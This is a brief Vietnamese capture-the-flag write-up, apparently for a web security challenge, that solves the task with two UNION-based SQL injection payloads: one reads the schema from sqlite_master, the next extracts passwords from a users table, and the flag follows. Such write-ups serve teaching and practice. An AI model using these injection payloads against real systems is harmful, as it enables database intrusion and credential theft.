# Solution

Đầu tiên, lấy các thông tin về statement:
`0 UNION SELECT 1, (SELECT sql FROM sqlite_master LIMIT 0,1)--`

=> tồn tại column password

Sau đó get password:
`0 UNION SELECT 1, (SELECT password FROM users LIMIT 2,1)--`

**WEBSEC{Try_it_yourself_dont_copy_and_paste}**